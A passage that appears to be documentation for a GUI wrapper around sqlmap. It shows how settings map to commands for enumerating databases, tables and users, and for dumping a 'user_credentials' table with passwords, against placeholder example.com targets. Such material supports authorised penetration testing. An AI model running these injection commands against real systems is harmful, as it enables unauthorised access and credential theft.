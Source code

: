 ### Example 6: Basic Database Enumeration
**Scenario:** Discover database structure and contents

**Target Information:**
- URL: `http://example.com/admin.php?id=1`
- Goal: Enumerate databases, tables, and columns

**GUI Configuration:**
```
Target Tab:
├── URL: http://example.com/admin.php?id=1
└── Cookie: admin_session=authenticated

Enumeration Tab:
├── Enumerate Databases: ✓
├── Enumerate Tables: ✓
├── Enumerate Columns: ✓
├── Enumerate Users: ✓
└── Database: (leave empty for all)

General Tab:
├── Output Directory: ./enumeration_results/
├── CSV Format: ✓
├── Verbose Level: 3
└── Batch: ✓
```

**Generated Command:**
```bash
sqlmap -u "http://example.com/admin.php?id=1" --cookie="admin_session=authenticated" --dbs --tables --columns --users --output-dir=./enumeration_results/ --csv -v 3 --batch
```

### Example 7: Targeted Data Extraction
**Scenario:** Extract specific data from a known table

**Target Information:**
- URL: `http://example.com/user.php?id=1`
- Known: Database `users_db`, Table `user_credentials`

**GUI Configuration:**
```
Target Tab:
├── URL: http://example.com/user.php?id=1
└── Method: GET

Enumeration Tab:
├── Database: users_db
├── Table: user_credentials
├── Columns: username,password,email,last_login
├── Dump Table: ✓
├── Start from Entry: 1
└── Stop at Entry: 100

General Tab:
├── Output Directory: ./data_extract/
├── CSV Format: ✓
└── Verbose Level: 2
```
